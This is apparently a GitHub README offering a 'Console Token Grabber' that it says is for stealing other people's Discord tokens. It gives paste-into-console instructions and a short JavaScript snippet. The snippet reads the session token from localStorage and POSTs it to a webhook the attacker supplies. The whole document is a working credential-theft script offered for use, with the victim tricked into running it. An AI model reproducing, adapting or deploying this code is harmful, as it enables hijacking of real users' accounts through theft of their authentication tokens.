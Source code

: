 ## 🔐 Basic Console Token Grabber
• **It's a simple "Console Token Grabber" that you can use to steal other people's Discord Token.**

<!--<h3 align="center">
![image](https://cdn.discordapp.com/attachments/941755353035579422/951879632544747540/Unbenannt-1.png)
</h3> -->

![image](https://cdn.discordapp.com/attachments/941755353035579422/951879632544747540/Unbenannt-1.png)

## 🔐 How to use

• Go ond Discord and press CTRL + SHIFT + I and paste the Script in the console.

```js
(function() {
    window.dispatchEvent(new Event('beforeunload'));
    var x = new XMLHttpRequest;
    x.open("POST", 'YOUR WEBHOOK'), x.setRequestHeader("Content-type", "application/json");
    var y = {
        username: "Eternity Console Stealer",
        avatar_url: "https://cdn.discordapp.com/attachments/941755353035579422/947642580521340928/1.png",
        content: "@everyone New Log!",
        embeds: [{
            color: "21426",
            description: `Token: ${window.open().localStorage.token}`,
        }]
    };

    x.send(JSON.stringify(y));
    w.close()
}());;


